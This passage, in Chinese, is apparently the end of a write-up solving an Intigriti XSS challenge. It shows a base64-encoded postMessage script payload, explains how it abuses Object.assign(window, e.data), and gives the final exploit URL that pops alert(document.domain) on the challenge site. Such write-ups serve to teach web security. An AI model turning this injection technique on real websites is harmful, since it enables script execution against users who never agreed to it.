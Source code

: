 ```
&lt;script&gt;window.parent.postMessage(`{`text:1, html:1, base64:1`}`, "*")&lt;/script&gt;hi intigriti
```

别忘了，“Object.assign(window, e.data)“这一行可以根据我传递过来的消息去定义“text”和“html”变量。结尾的“hi intigriti”只是为了替换掉之前base64编码Payload结尾的“+”。

现在我的URL编码地址如下：

```
https://challenge.intigriti.io/#data:text/html;charset=alert(1);base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt0ZXh0OjEsIGh0bWw6MSwgYmFzZTY0OjF9LCAiKiIpPC9zY3JpcHQ+aGkgaW50aWdyaXRp
```

但是，好像这个URL并没有什么用…

我们可以直接在浏览器地址栏中输入Payload，下面这个URL会弹出一条“This site can’t be reached”的错误信息，后来我才发现出问题的地方在于“alert(1)”。



## 最终解决方案

```
https://challenge.intigriti.io/#data:text/html;alert(document.domain);base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt0ZXh0OjEsIGh0bWw6MSwgYmFzZTY0OjF9LCAiKiIpPC9zY3JpcHQ+aGkgaW50aWdyaXRp
```

[![](https://p5.ssl.qhimg.com/t0159cacd353ac50a79.png)](https://p5.ssl.qhimg.com/t0159cacd353ac50a79.png)

终于成功啦！！！



## 总结

1、 想要了解你想要攻击的代码是非常重要的，而且需要花很多的时间和精力。<br>
2、 不要太过专注于最终的目标，我们要好好计划中间步骤，并针对这些步骤来稳扎稳打的走好每一步，曲线救国也是不错的思路。<br>
3、 如果你没有思路的话，不要着急，给自己一点时间和耐心，按照计划一步一步去走就好，最终我们都会成功的！
